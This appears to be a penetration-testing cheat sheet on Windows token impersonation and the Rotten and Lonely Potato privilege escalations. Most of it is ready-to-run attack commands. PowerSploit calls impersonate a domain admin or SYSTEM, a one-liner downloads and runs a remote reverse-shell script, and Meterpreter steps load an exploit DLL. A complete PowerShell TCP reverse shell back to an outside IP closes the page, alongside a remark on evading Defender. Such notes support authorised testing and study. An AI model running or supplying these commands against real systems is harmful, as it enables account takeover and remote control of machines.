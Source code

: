# Token Impersonation

Token impersonation is a technique you can use as local admin to impersonate another user logged on to a system. This is very useful in scenarios where you are local admin on a machine and want to impersonate another logged on user, e.g a domain administrator.

#### Powershell

We can do token impersonation directly in powershell with a completely legitimate module. This will spawn a new thread as the user you impersonation, but it can be made to work in the same thread. Therefore, if you impersonate and then type whoami it might still show the original username, but you still have privs as your target user. If you do however spawn a new process \(or a new shell\) and migrate to that you will have a shell as the account you are impersonating.

Token impersonation is now a part of Powersploit [https://github.com/PowerShellMafia/PowerSploit/blob/c7985c9bc31e92bb6243c177d7d1d7e68b6f1816/Exfiltration/Invoke-TokenManipulation.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/c7985c9bc31e92bb6243c177d7d1d7e68b6f1816/Exfiltration/Invoke-TokenManipulation.ps1)

Invokes token impersonation as a domain user. If this doesn't work you can try impersonating SYSTEM and then dumping credentials using mimikatz.

`Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"`

`Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"`

`Get-Process wininit | Invoke-TokenManipulation -CreateProcess "cmd.exe"`

As a replacement for the last command you could do, but be vary of special characters in the command like `"` and `'` `Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/Invoke-PowerShellTcp.ps1');\"};"`

## Rotten potato exploit

The rotten potato exploit is a privilege escalation technique that allows escalation from service level accounts to SYSTEM through token impersonation. This can be achieved through uploading an exe file exploit and executing or through memory injection with psinject in either Empire or Metasploit. See [Foxglove security's writeup](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) of the exploit for more detail.

#### Meterpreter

Get a meterpreter shell as a service account and upload rot.exe to the box.

`getuid` - shows who you are, like `whoami` `getprivs` - shows you available tokens for impersonation `getsystem` - allows SYSTEM token impersonation directly in meterpreter if local admin `use incognito` - loads an extension that allows token impersonation `list_tokens -u` - lists available impersonation and delegation tokens

Now this is not very nice, but upload the exploit to disk Now you can use meterpreter's feature of executing binaries straight into memory and if that doesn't work upload it to disk as a dll and use rundll32 to execute it.

`execute -H -c -m -d calc.exe -f /root/rot.exe` `upload rot.dll "c:\temp\rot.dll"` `execute -H -c -f "rundll32 c:\temp\rot.dll,Main` Now do `list_tokens -u` again, and an impersonation token for SYSTEM should be available. You can then impersonate using `impersonate_token "NT AUTHORITY\SYSTEM"`

Congratulations, you are now system

### Lonely potato

[https://decoder.cloud/2017/12/23/the-lonely-potato/](https://decoder.cloud/2017/12/23/the-lonely-potato/) [https://github.com/decoder-it/lonelypotato](https://github.com/decoder-it/lonelypotato)

I did this on Windows 10 with Defender and nothing triggered. You could probably implement a better obfuscated reverse shell if you like.

Make a powershell reverse shell and put it in a file `test.bat`.

```text
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.9',53);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (IEX $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Upload it to the target machine on `c:\windows\temp\test.bat`. The directory doesn't really matter, this is just an example.

Upload MSFRottenPotato.exe to your target machine. Now depending on what token privs you have you can use this exploit. So enumerate your token privs with:

`whoami /priv`

If you only have `SeImpersonatePrivilege` you can use the `CreateProcesAsUser, (t)` argument. If you have both `SeImpersonatePrivilege` and `SeAssignPrimaryToken` you can use `CreateProcessWithTokenW, (*)` argument.

Set up your listener in empire, metasploit, netcat or whatever you prefer.

Execute it with

```text
c:\windows\temp\MSFRottenPotato.exe t c:\windows\temp\test.bat
 `
```

